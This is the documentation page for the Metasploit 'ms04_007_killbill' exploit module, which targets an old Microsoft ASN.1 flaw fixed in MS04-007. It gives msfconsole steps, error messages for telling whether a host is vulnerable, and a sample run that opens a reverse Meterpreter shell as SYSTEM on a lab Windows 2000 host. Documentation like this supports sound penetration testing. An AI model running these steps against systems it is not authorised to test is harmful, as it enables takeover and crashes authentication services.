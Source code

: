 ## Vulnerable Application

This is an exploit for a previously undisclosed vulnerability in the bit string decoding code in the Microsoft ASN.1 library. This vulnerability is not related to the bit string vulnerability described in eEye advisory AD20040210-2. Both vulnerabilities were fixed in the MS04-007 patch.

You are only allowed one attempt with this vulnerability. If the payload fails to execute, the LSASS system service will crash and the target system will automatically reboot itself in 60 seconds. If the payload succeeds, the system will no longer be able to process authentication requests, denying all attempts to login through SMB or at the console. A reboot is required to restore proper functioning of an exploited system.

This exploit has been successfully tested with the windows/[all]/reverse_tcp payloads, however a few problems were encountered when using the equivalent bind payloads. Your mileage may vary.

Service Pack 1, Roll Up 1 includes MS04-007.

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/ms04_007_killbill`
  3. Do: `set RHOSTS [IP]`
  4. Do: `set LHOST [IP]`
  5. Do: `set LPORT [port]`
  6. Do: `run`

## Error messages

```
The server responded with error: STATUS_ACCESS_VIOLATION (Command=115 WordCount=0)
```

The system is vulnerable.

```
The server responded with error: STATUS_INVALID_PARAMETER (Command=115 WordCount=0)
```

The system is not vulnerable.

## Scenarios

### A run on Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```      
  msf > use modules/exploits/windows/smb/ms04_007_killbill
  msf exploit(windows/smb/ms04_007_killbill) > set RHOSTS 192.168.1.2
    RHOSTS => 192.168.1.2
  msf exploit(windows/smb/ms04_007_killbill) > run
    [*] Started reverse TCP handler on 192.168.1.3:4444
    [-] 192.168.1.2:445 - Error: The server responded with error: STATUS_ACCESS_VIOLATION (Command=115 WordCount=0)
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.2:1050) at 2019-11-27 19:08:46 -0700

  meterpreter > sysinfo
    Computer        : PC-B43791F5F5
    OS              : Windows 2000 (5.0 Build 2195).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows

  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```

